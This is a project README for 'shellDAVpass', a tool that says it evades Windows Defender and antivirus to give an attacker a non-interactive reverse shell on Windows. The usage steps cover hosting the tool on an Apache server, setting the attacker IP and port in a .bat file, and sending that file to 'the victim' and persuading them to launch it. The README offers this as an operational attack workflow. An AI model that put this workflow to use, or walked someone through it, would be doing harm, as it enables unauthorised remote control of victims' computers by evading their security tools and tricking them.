 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. cd shellDAVpass
6. nano shellDAVpass.bat
7. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
8. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
9. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
10. Launch the command prompt
  bash bash shellDAVpass.sh
11. Enter your commands
```
An original article:
--------------------
[[https://www.ivanglinkin.com/autosuid/](https://www.ivanglinkin.com/sheeldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)]

Video example:
--------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/12/AutoSUID_Video.gif)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/11/AutoSUID.png)
